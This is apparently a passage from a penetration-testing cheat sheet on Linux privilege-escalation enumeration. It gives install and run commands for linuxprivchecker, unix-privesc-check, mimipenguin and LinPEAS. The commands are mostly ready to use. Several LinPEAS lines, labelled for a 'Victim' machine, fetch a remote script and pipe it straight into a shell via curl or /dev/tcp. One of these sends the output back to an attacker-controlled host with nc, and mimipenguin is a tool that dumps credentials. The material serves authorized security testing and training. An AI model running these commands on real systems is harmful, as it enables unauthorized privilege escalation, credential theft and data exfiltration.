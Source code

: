 ```bash
linuxprivchecker -w -o linuxprivchecker.log
# if runpy fails to add the script to your path
python3 -m linuxprivchecker -w -o linuxprivchecker.log
```

##### Unix-privesc-check
```bash
wget "https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz"
./unix-privesc-check > output.txt
```

##### mimipenguin
```bash
git clone https://github.com/huntergregal/mimipenguin.git
cd mimipenguin
chmod +x mimipenguin.sh
./mimipenguin.sh
```

##### UNIX-PrivEsc
```bash
https://github.com/FuzzySecurity/Unix-PrivEsc
```

##### LinPEAS
```bash
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victi

# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors

# Use a linpeas binary
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

### References
[LinEnum](https://github.com/rebootuser/LinEnum)
